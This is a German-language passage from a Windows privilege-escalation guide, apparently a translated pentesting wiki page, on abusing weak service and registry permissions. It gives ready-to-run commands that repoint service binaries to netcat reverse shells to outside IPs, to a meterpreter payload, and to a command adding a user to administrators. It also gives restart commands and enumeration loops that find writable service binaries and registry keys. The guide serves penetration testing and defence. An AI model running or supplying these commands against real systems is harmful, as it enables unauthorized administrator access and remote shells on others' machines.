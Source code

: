 In dem Szenario, in dem die Gruppe "Authentifizierte Benutzer" **SERVICE\_ALL\_ACCESS** auf einen Dienst besitzt, ist die Modifikation der ausführbaren Binärdatei des Dienstes möglich. Um **sc** zu ändern und auszuführen:
```bash
sc config <Service_Name> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
sc config <Service_Name> binpath= "net localgroup administrators username /add"
sc config <Service_Name> binpath= "cmd \c C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"

sc config SSDPSRV binpath= "C:\Documents and Settings\PEPE\meter443.exe"
```
### Dienst neu starten
```bash
wmic service NAMEOFSERVICE call startservice
net stop [service name] && net start [service name]
```
Privilegien können durch verschiedene Berechtigungen erhöht werden:

* **SERVICE\_CHANGE\_CONFIG**: Ermöglicht die Neukonfiguration der Dienst-Binärdatei.
* **WRITE\_DAC**: Ermöglicht die Neukonfiguration von Berechtigungen, was zur Fähigkeit führt, Dienstkonfigurationen zu ändern.
* **WRITE\_OWNER**: Erlaubt den Erwerb von Eigentum und die Neukonfiguration von Berechtigungen.
* **GENERIC\_WRITE**: Erbt die Fähigkeit, Dienstkonfigurationen zu ändern.
* **GENERIC\_ALL**: Erbt ebenfalls die Fähigkeit, Dienstkonfigurationen zu ändern.

Für die Erkennung und Ausnutzung dieser Schwachstelle kann das _exploit/windows/local/service\_permissions_ verwendet werden.

### Schwache Berechtigungen von Dienst-Binärdateien

**Überprüfen Sie, ob Sie die Binärdatei, die von einem Dienst ausgeführt wird, ändern können** oder ob Sie **Schreibberechtigungen für den Ordner** haben, in dem sich die Binärdatei befindet ([**DLL Hijacking**](dll-hijacking/))**.**\
Sie können jede Binärdatei, die von einem Dienst ausgeführt wird, mit **wmic** (nicht in system32) abrufen und Ihre Berechtigungen mit **icacls** überprüfen:
```bash
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt

for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"
```
Sie können auch **sc** und **icacls** verwenden:
```bash
sc query state= all | findstr "SERVICE_NAME:" >> C:\Temp\Servicenames.txt
FOR /F "tokens=2 delims= " %i in (C:\Temp\Servicenames.txt) DO @echo %i >> C:\Temp\services.txt
FOR /F %i in (C:\Temp\services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> C:\Temp\path.txt
```
### Dienste-Registry-Berechtigungen ändern

Sie sollten überprüfen, ob Sie eine Dienst-Registry ändern können.\
Sie können Ihre Berechtigungen über eine Dienst-Registry überprüfen, indem Sie:
```bash
reg query hklm\System\CurrentControlSet\Services /s /v imagepath #Get the binary paths of the services

#Try to write every service with its current content (to check if you have write permissions)
for /f %a in ('reg query hklm\system\currentcontrolset\services') do del %temp%\reg.hiv 2>nul & reg save %a %temp%\reg.hiv 2>nul && reg restore %a %temp%\reg.hiv 2>nul && echo You can modify %a

get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "<Username> Users Path Everyone"
```
Es sollte überprüft werden, ob **Authenticated Users** oder **NT AUTHORITY\INTERACTIVE** `FullControl`-Berechtigungen besitzen. Wenn ja, kann die von dem Dienst ausgeführte Binärdatei geändert werden.
